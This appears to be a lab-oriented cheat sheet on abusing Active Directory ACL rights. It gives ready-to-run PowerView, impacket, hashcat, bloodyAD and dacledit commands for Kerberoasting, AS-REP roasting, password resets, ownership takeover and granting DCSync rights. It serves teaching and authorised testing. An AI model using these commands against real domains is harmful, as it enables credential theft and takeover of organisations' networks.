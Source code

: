 # ACL

### Addself

    Addself abused with Add-DomainGroupMember

Shows security groups that a user can add themselves to.

### ForceChangePassword

    Abused with Set-DomainUserPassword
    https://github.com/Andre92Marcos/tools/blob/master/powersploit/PowerView.md#functions

Gives us the right to reset a user's password without first knowing their password (should be used cautiously and typically best to consult our client before resetting passwords).

### GenericWrite

    Abused with Set-DomainObject

Gives us the right to write to any non-protected attribute on an object. If we have this access over a user, we could assign them an SPN and perform a Kerberoasting attack (which relies on the target account having a weak password set). Over a group means we could add ourselves or another security principal to a given group. Finally, if we have this access over a computer object, we could perform a resource-based constrained delegation attack which is outside the scope of this module.

Example:

```powershell
# Create a cred object of the user the has the GenericWrite acl
$SecPassword = ConvertTo-SecureString 'DBAilfreight1!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\mssqladm', $SecPassword)

#Next we'll use Set-DomainObject to set a fake SPN on the target account. We'll create an SPN named acmetesting/LEGIT
Set-DomainObject -credential $Cred -Identity ttimmons -SET @{serviceprincipalname='acmetesting/LEGIT'} -Verbose
```
```shell
#Finally we can use impacket to get the tgt of th target account
impacket-GetUserSPNs -dc-ip 172.16.8.3 INLANEFREIGHT.LOCAL/mssqladm -request-user ttimmons
#And then crack
hashcat -m 13100 ttimmons_tgs /usr/share/wordlists/rockyou.txt
```

It also allows for a ShadowCredentials attack.


### GenericAll

    Abused with Set-DomainUserPassword or Add-DomainGroupMember

This grants us full control over a target object. Again, depending on if this is granted over a user or group, we could modify group membership, force change a password, or perform a targeted Kerberoasting attack. If we have this access over a computer object and the Local Administrator Password Solution (LAPS) is in use in the environment, we can read the LAPS password and gain local admin access to the machine which may aid us in lateral movement or privilege escalation in the domain if we can obtain privileged controls or gain some sort of privileged access.

We can also add the dont_req_preauth setting so that the account is ASREProastable:

```
bloodyAD --host <dc_controller_name> -d "domain_name" --dc-ip <domain_controller_ip> -k add uac <username_of_target_account> -f DONT_REQ_PREAUTH
```

We can also use bloodyAD to change a target user's password.

### WriteDacl

This abuse can be carried out when controlling an object that has WriteDacl over another object.

Instead of giving full control, the same process can be applied to allow an object to DCSync by adding two ACEs with specific Extended Rights (DS-Replication-Get-Changes and DS-Replication-Get-Changes-All). Giving full control leads to the same thing since GenericAll includes all ExtendedRights, hence the two extended rights needed for DCSync to work.

Using dacledit.py

```
dacledit.py -action 'write' -rights 'FullControl' -principal 'controlled_object' -target 'target_object' "$DOMAIN"/"$USER":"$PASSWORD"
```

```
dacledit.py -action 'write' -rights 'DCSync' -principal 'controlled_object' -target 'target_object' "$DOMAIN"/"$USER":"$PASSWORD"
```

Using bloodyAd

```
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" add genericAll "$TargetObject" "$ControlledPrincipal"
```

```
# Give DCSync (DS-Replication-Get-Changes, DS-Replication-Get-Changes-All)
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" add dcsync "$ControlledPrincipal"
```

Using PowerView

```powershell
$SecPassword = ConvertTo-SecureString '<password_of_controlled_user_with_WriteDacl>' -AsPlainText -Force
#$SecPassword = ConvertTo-SecureString 's3rvice' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<domain>\<controlled_user>', $SecPassword)
#$Cred = New-Object System.Management.Automation.PSCredential('htb\svc-alfresco', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity <user_that_is_gonna_receive_the_dcsync_acls> -Rights DCSync
#Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity svc-alfresco -Rights DCSync
```

### WriteOwner

    Abuse with bloodyAD

    bloodyAD --host <host_ip> -d '<domain_name>' -u '<username>' -p '<password>' set owner <group_name> <name_of_new_owner>
    dacledit.py -action 'write' -rights 'FullControl' -principal '<username_of_new_owner>' -target '<username_being_owned>' '<domain_name>'/'<username_new_owner>':'<password_new_owner>' # to give full control

https://github.com/Andre92Marcos/tools/tree/master/bloodyAD
